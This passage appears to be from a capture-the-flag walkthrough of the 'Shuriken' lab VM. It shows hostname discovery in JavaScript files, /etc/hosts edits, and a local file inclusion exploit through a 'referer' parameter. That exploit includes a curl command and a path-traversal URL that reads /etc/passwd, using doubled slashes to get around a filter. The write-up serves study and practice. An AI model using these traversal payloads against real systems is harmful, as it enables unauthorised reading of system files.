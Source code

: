 ```
  t.p = 'http://broadcast.shuriken.local',
```

Added the following to /etc/hosts:

```
192.168.56.129	broadcast.shuriken.local
```

You get a authentication dialog when you try to visit the site:

![](/assets/images/shuriken/s3.png)

So you should probably find credentials first.

  

In the other js file (index\_\_d8338055.js"):

```
n.p = 'http://shuriken.local/index.php?referer=',
```

Try to add that to /etc/hosts instead:

```
192.168.56.129	shuriken.local
```

  

#### Local File Inclusion:

We can perform LFI with referer param:

We test the following and it appears in the page source

```
crazyeights@es-base:~$ curl http://shuriken.local/index.php?referer=../js/index__7ed54732.js
```

Getting the passwd file, you must use double slashes because single slashes (../) are removed.

```
http://shuriken.local/index.php?referer=..//..//..//..//etc/passwd
```
